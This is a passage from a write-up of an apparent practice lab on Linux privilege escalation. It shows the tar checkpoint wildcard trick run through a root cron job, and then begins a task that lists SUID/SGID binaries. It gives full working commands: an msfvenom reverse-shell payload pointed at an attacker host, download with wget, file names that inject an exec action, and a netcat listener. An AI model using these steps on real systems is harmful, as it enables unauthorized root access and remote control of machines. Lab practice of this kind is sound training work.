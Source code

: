 Take a look at the GTFOBins page for [tar](https://gtfobins.github.io/gtfobins/tar/). Note that tar has command line options that let you run other commands as part of a checkpoint feature.

Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```
Transfer the shell.elf file to /home/user/ on the Debian VM (you can use scp or host the file on a webserver on your Kali box and use wget). Make sure the file is executable:
I used python webserver\
on attacker machine : `python3 -m http.server 80` and on the VM `wget <attackerip>/shell.elf`\
then
```
chmod +x /home/user/shell.elf
```
Create these two files in /home/user:
```
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.
```
nc -nvlp 4444
```
Remember to exit out of the root shell and delete all the files you created to prevent the cron job from executing again:
```
rm /home/user/shell.elf
rm /home/user/--checkpoint=1
rm /home/user/--checkpoint-action=exec=shell.elf
```

# Task 11 : SUID / SGID Executables - Known Exploits

Find all the SUID/SGID executables on the Debian VM:
```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
result 
```
-rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
-rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
-rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
-rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
-rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
-rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
-rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
-rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
-rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
-rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
-rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
-rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
-rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
-rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
-rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
-rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
-rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
-rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
-rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
-rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
```